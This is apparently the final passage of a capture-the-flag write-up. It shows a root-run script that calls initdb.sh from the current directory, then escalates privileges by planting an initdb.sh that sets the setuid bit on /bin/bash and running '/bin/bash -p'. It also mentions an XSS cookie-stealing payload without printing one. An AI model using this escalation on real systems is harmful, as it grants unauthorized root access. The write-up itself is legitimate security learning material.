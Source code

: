 
```bash
bash-5.2$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```


The above contents how that the script "initdb.sh" is being run from the current directory of wherever the script is being run. This can be exploited by creating a initdb.sh script in the attacker's current directory and executing syscheck again. The contents of initdb.sh is as follows:

```bash
chmod u+s /bin/bash
```

The script will set a setuid permission bit for the owner of /bin/bash, in this case, root. Hence, this allows lower previliged users to run /bin/bash as the root user. Hence, this will allow the users to start a bash as the root user.


Upon running syscheck again, the command `/bin/bash -p` is run, creating a new bash instance as a root user. Upon doing so, the user immediately becomes the superuser.


Overall, the box tested the user's ability to identify a XSS vulnerability and to inject that vulnerability onto the webserver. I found the process of crafting an XSS payload to steal the server's cookies to be quite educational. Doing so was the most challenging part of the box, as after obtaining the credentials of a higher previleged user, the methods used to exploit the rest of the box were straightforward.